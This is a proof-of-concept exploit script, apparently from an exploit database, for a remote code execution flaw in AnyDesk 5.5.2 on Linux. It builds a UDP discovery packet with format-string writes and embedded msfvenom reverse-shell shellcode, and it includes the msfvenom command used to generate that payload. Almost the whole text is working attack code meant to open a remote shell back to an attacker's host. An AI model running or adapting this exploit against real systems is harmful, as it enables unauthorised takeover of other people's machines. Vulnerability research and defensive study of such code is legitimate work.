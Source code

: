EXP
---

    # Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
    # Date: 09/06/20
    # Exploit Author: scryh
    # Vendor Homepage: https://anydesk.com/en
    # Version: 5.5.2
    # Tested on: Linux
    # Walkthrough: https://devel0pment.de/?p=1881

    #!/usr/bin/env python
    import struct
    import socket
    import sys

    ip = '192.168.x.x'
    port = 50001

    def gen_discover_packet(ad_id, os, hn, user, inf, func):
      d  = chr(0x3e)+chr(0xd1)+chr(0x1)
      d += struct.pack('>I', ad_id)
      d += struct.pack('>I', 0)
      d += chr(0x2)+chr(os)
      d += struct.pack('>I', len(hn)) + hn
      d += struct.pack('>I', len(user)) + user
      d += struct.pack('>I', 0)
      d += struct.pack('>I', len(inf)) + inf
      d += chr(0)
      d += struct.pack('>I', len(func)) + func
      d += chr(0x2)+chr(0xc3)+chr(0x51)
      return d

    # msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
    shellcode =  b""
    shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
    shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
    shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
    shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
    shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
    shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
    shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
    shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
    shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
    shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
    shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

    print('sending payload ...')
    p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.sendto(p, (ip, port))
    s.close()
    print('reverse shell should connect within 5 seconds')
